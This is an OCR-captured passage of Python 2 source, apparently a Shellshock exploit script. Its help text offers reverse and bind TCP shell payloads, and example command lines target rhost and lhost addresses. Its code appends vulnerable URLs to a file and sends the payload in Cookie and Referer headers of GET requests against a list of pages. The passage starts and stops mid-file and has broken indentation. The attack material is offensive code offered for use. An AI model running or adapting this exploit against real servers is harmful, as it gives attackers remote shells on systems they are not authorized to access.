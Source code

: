 "reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)

"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)



Example:



./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234

./exploit.py payload=bind rhost=1.2.3.4 rport=1234



Credits:



Federico Galatolo 2014

"""

    sys.exit(0)

print banner
def save(url_saved):
    file_saved = 'Shellshock_vull.txt'
    msg = '[INFO][FILE SAVED]: '+file_saved + "\n"
     if os.path.exists(file_saved):
        arquivo = open(file_saved, 'a')
        arquivo.write(url_saved)
        arquivo.close()
        print(msg)
     else:
        arquivo = open(file_saved, 'w')
        arquivo.write(url_saved)
        arquivo.close()
        print(msg)




def exploit(lhost,lport,rhost,rport,payload,pages):

    headers = {"Cookie": payload, "Referer": payload}

    

    for page in pages:

        if stop:

            return

        now = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")

        print str(now) + " [+][INFO] TESTING EXPLOIT ON :: "+page

        if proxyhost != "":

            c = httplib.HTTPConnection(proxyhost,proxyport)

            c.request("GET","http://"+rhost+page,headers=headers)

